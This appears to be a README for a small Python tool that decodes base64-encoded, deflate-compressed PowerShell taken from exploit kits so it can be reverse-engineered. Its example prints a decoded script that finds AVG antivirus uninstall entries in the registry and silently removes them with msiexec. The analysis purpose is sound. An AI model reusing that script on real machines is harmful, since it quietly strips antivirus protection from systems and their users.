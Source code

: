 # deflate64
Deflate64 - Decripting Base 64 strings, uncompress content

Some sploits are a collection of Microsoft Powershell modules that can be used to penetrate systems. The majority of this is made with encrypt strings in 64 and after that compressed
in deflate format.
This program decrypt base 64 strings and uncompress them, allowed you to do a reverse engineering and understood the code. 

Usage

To get the list of basic options and information about the project:

python deflate64.py -h

Examples of use:

 python undeflate64.py -u "xZJRa8IwFIXfBf/DJfRBZbWg4sNEhgzdxuYm1tk9FCTEaw2LiUsiCl3/+zKZYp3uaWOPPff03O8e4q0kl8ZSIeo1A21IGAdye//Qv4zDp94o6gy7caTWzUa99qimGPc508qomY0jLqdqbeLrldYo7Ri14UrGz7s8Au8wUxopm0MKyRK8SXUQDqidQ+ZGV070JuAL/opAKp3xTYVsBwYFMgv7nNBqLpNWseDtUZuNc6j/iFcsfMWVDkGBS8iBlyHNn+IuOfysHiWDP8SloMxR9A3vbpBVcYPkgpCDSXB3LLx8Cq2fN400X5TKzsRneebd1QOtEk0X0OMCTYWU0wyFwdTZtPWXWjE0BsjCcNxhgU914rRgk1sFELxJCKQraPuz80WUW8iy1qna6rV8be5pHtXmHO2c4c9q+77pdG3O98u1ucTztX0A"--txt example.txt
 
Result (content example.txt):
 
&uninstall32s = gci "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall" | foreach { gp $_.PSPath } | ? { $_ -like "*AVG*" } | select UninstallString;
$uninstall64s = gci "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall" | foreach { gp $_.PSPath } | ? { $_ -like "*AVG*" } | select UninstallString;

foreach($uninstall64 in $uninstall64s) {
$uninstall64 = $uninstall64.UninstallString -Replace "MsiExec.exe","" -Replace "/I","" -Replace "/X","";
$uninstall64 = $uninstall64.Trim();
if($uninstall64 -like "*Program Files*"){}else{start-process "msiexec.exe" -args "/x $uninstall64  /qn /norestart" -Wait }};
foreach($uninstall32 in $uninstall32s) {
$uninstall32 = $uninstall32.UninstallString -Replace "MsiExec.exe","" -Replace "/I","" -Replace "/X","";
$uninstall32 = $uninstall32.Trim();
if($uninstall32 -like "*Program Files*"){}else{start-process "msiexec.exe" -args "/x $uninstall32  /qn /norestart" -Wait }};
